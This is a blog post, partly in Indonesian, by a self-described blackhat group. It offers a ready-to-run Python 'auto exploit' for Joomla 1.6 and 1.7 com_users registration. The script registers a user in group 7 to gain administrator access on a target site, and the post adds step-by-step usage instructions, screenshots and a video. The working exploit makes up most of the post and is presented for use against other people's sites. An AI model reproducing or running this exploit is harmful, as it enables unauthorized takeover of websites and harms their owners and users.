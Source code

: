 ```yaml
---
layout: post
title: "Joomla Com_User Auto Exploit with Python"
date: 2014-08-30 05:55:39 +0700
comments: true
categories: [exploit, python]
description: Joomla Com_User Auto Exploit with Python
keywords: Joomla Com_User Auto Exploit with Python
---
```


## Exploit Joomla version 1.6 & 1.7

### Require Install
* [Python](https://www.python.org/downloads/)
* [Python Requests Package](http://docs.python-requests.org/en/latest/user/install/#install)
<!-- more -->

### Who to?
* Kalian harus install dulu python
* Kalau sudah install pythonnya lanjut ke install Python Requests, download kemudian ektrak filenya dan jalankan seperti ini (linux):
```sh
sudo python setup.py install
```

* Kemudian simpan script python dibawah ke direktori dimana kalian ingin menyimpannya.
* Buka terminal (linux) Bash Scripting Python aka CMD (Windows)
* Masuk ke direktori (cd) dimana script tadi anda simpan.
* Jalankan sebagai contoh:
```sh
python sbh.py http://target.com/ usermu passwordmu emailmu
```

#### By xSecurity
#### Modif Sign by SunDi3yansyah | Surabaya Blackhat

{% codeblock sbh.py %}
#!/usr/bin/python
# Joomla Com_User Auto Exploit
# By xSecurity
# Modif Sign by SunDi3yansyah | Surabaya Blackhat

import requests as sec4ever, re, urllib, sys, os
from threading import Thread 
from time import sleep
def cls():
	os.system(['clear','cls'][os.name =='nt'])

cls()
print '''
   ____                  _                         ____  _            _    _           _   
  / ___| _   _ _ __ __ _| |__   __ _ _   _  __ _  | __ )| | __ _  ___| | _| |__   __ _| |_ 
  \___ \| | | | '__/ _` | '_ \ / _` | | | |/ _` | |  _ \| |/ _` |/ __| |/ / '_ \ / _` | __|
   ___) | |_| | | | (_| | |_) | (_| | |_| | (_| | | |_) | | (_| | (__|   <| | | | (_| | |_ 
  |____/ \__,_|_|  \__,_|_.__/ \__,_|\__, |\__,_| |____/|_|\__,_|\___|_|\_\_| |_|\__,_|\__|
                                     |___/                                                 
                                              _      _               
                        |  _  _.._._  _|_ _  |_) _  |_) __|__|_ _ ._ 
                        |_(/_(_|| | |  |_(_) |_)(/_ |_)(/_|_ |_(/_| 
        ---------------------------------------------------------------------
Joomla Version [1.6|1.7] [Com_User] Auto Exploit
Require Need Install Requests Python Package (Cari di google)
--------------------------------------------------------------
Surabaya Blackhat | Surabaya Hackerlink | Yogyakarta Blackhat
--------------------------------------------------------------
Please wait...'''

pwd2 = 'fio3jfiej9cewc9c9w0eufew9u'
def one(target,pwd1,pwd2,email):
	# Wrong Password
	x1 = xsec.get(target+'/index.php?option=com_users&view=registration')
	token = re.findall('type="hidden" name="(.*?)" value="1"', x1.text)
	post = {}
	post["jform[name]"] = 'SunDi3yansyah'
	post["jform[username]"] = user
	post["jform[password1]"] = pwd1
	post["jform[password2]"] = pwd2
	post["jform[email1]"] = email
	post["jform[email2]"] = email
	post["jform[groups][]"] = "7"
	post["option"] = "com_users"
	post["task"] = "registration.register"
	post[token[0]] = "1"
	p1 = xsec.post(target+'/index.php?option=com_users&view=registration', data=urllib.urlencode(post))
	x2 = xsec.get(target+'/index.php/component/users/?view=registration&layout=complete')

def exploit(target,pwd1,pwd2,email):
	# Wrong Password
	x3 = xsec.get(target+'/index.php?option=com_users&view=registration')
	token = re.findall('type="hidden" name="(.*?)" value="1"', x3.text)
	post = {}
	post["jform[name]"] = 'SunDi3yansyah'
	post["jform[username]"] = user
	post["jform[password1]"] = pwd1
	post["jform[password2]"] = pwd1
	post["jform[email1]"] = email
	post["jform[email2]"] = email
	post["jform[groups][]"] = "7"
	post["option"] = "com_users"
	post["task"] = "registration.register"
	post[token[0]] = "1"
	p2 = xsec.post(target+'/index.php?option=com_users&view=registration', data=urllib.urlencode(post))
	x4 = xsec.get(target+'/index.php/component/users/?view=registration&layout=complete')

xsec = sec4ever.session()
if len(sys.argv) == 5:
	target = sys.argv[1]
	user = sys.argv[2]
	pwd1 = sys.argv[3]
	email = sys.argv[4]
	one(target,pwd1,pwd2,email)
	ex = exploit(target,pwd1,pwd2,email)
	print ' * Go To Your Email & Active Then Login \n * Username: '+user+' & Password: '+pwd1
else:
	print "Usage: python sbh.py http://target.com/ usermu passwordmu emailmu"
{% endcodeblock %}

### Screenshot

{% img http://i40.photobucket.com/albums/e228/sundi3yansyah/WAzeF5n_zpsa0d8f316.png Joomla Com_User Auto Exploit with Python %}

{% img http://i40.photobucket.com/albums/e228/sundi3yansyah/L9F0YoC_zps2111c6a9.png Joomla Com_User Auto Exploit with Python %}

### Video

<iframe width="675" height="415" src="//www.youtube.com/embed/SHbTNPpx4_0" frameborder="0" allowfullscreen></iframe>
